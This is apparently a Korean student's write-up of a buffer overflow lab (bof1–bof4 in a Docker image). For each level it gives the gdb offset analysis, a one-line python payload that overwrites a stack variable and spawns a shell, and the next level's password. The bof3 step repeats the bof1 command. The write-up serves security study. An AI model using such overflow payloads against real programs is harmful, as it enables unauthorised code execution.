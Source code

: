 # Assignment

```shell
 $ docker run -it --privileged ccss17/bof
 $ cd crackme
```

> ID는 bof1, Password는 °ࡇ° ? ? ?

<br/>

### 4 - bof1

```shell
 $ vi bof1.c
```

![04-bof_code](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/04-bof1_code.png?raw=true)

bof1.c의 소스 코드를 확인한다.

![04-buf_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/04-buffer_address.png?raw=true)

gdb 실행파일을 열어서 buf 주소를 확인한다.

![04-innocent_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/04-innocent_address.png?raw=true)

gdb 실행파일을 열어서 innocent 주소를 확인한다.

![04-sub_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/04-sub_address.png?raw=true)

buf와 innocent의 거리를 알아낸다.
innocent의 주소가 -4되어 있었기 때문에 구한 거리에서 -4를 해준다.

즉 buf와 innocent의 거리는 140이다.

```shell
 $ (python -c "print 'x'*140 + 'aaaa'";cat) | ./bof1
```

![04-pw](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/04-pw.png?raw=true)

쉘을 열어주고
쉘 권한으로 bof2.pw를 읽어준다.

> bof2의 비밀번호는 e31a76fc 이다.

<br/>
<br/>

### 5 - bof2

```shell
 $ vi bof2.c
```

![05-bof_code](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/05-bof2_code.png?raw=true)

bof2.c의 소스 코드를 확인한다.

![05-buf_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/05-buf_address.png?raw=true)

strcpy를 찾아서 buf의 주소를 알아낸다.

![05-innocent_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/05-innocent_address.png?raw=true)

compare 함수 부분에 가서 innocent의 주소를 알아낸다.

![05-sub_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/05-sub_address.png?raw=true)

buf와 innocent의 거리를 알아낸다.
innocent의 주소가 -4되어 있었기 때문에 구한 거리에서 -4를 해준다.

즉 buf와 innocent의 거리는 140이다.

```shell
 $ ./bof2 `python -c "print 'x'*140+'aaaa'"`cat
```

![05-pw](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/05-pw.png?raw=true)

쉘을 열어주고
쉘 권한으로 bof3.pw를 읽어준다.

> bof3의 비밀번호는 78ac9531 이다.

<br/>
<br/>

### 6 - bof3

```shell
 $ vi bof3.c
```

![06-bof3_code](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/06-bof3_code.png?raw=true)

bof3.c의 소스 코드를 확인한다.

![06-buf_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/06-buf_address.png?raw=true)

gdb 실행파일을 열어서 buf 주소를 확인한다.

![06-innocent_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/06-innocent_address.png?raw=true)

gdb 실행파일을 열어서 innocent 주소를 확인한다.

![06-sub_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/06-sub_address.png?raw=true)

buf와 innocent의 거리를 알아낸다.
innocent의 주소가 -4되어 있었기 때문에 구한 거리에서 -4를 해준다.

즉 buf와 innocent의 거리는 140이다.

```shell
 $ (python -c "print 'x'*140 + 'aaaa'";cat) | ./bof1
```

![06-pw](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/06-pw.png?raw=true)

쉘을 열어주고
쉘 권한으로 bof4.pw를 읽어준다.

> bof4의 비밀번호는 64869b0d 이다.

<br/>
<br/>

### 7 - bof4

```shell
 $ vi bof4.c
```

![07-bof_code](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/07-bof4_code.png?raw=true)

bof4.c의 소스 코드를 확인한다.

![07-buf_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/07-buf_address.png?raw=true)

gdb 실행파일을 열어서 buf 주소를 확인한다.

![07-innocent_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/07-innocent_address.png?raw=true)

gdb 실행파일을 열어서 innocent 주소를 확인한다.

![07-sub_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/07-sub_address.png?raw=true)

buf와 innocent의 거리를 알아낸다.
innocent의 주소가 -4되어 있었기 때문에 구한 거리에서 -4를 해준다.

즉 buf와 innocent의 거리는 140이다.

```shell
 $ ./bof4 `python -c "print 'x'*140+'\x78\x56\x34\x12'"`
```

![07-pw](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/07-pw.png?raw=true)

쉘을 열어주고
쉘 권한으로 bof5.pw를 읽어준다.

> bof5의 비밀번호는 c75cfe84 이다.
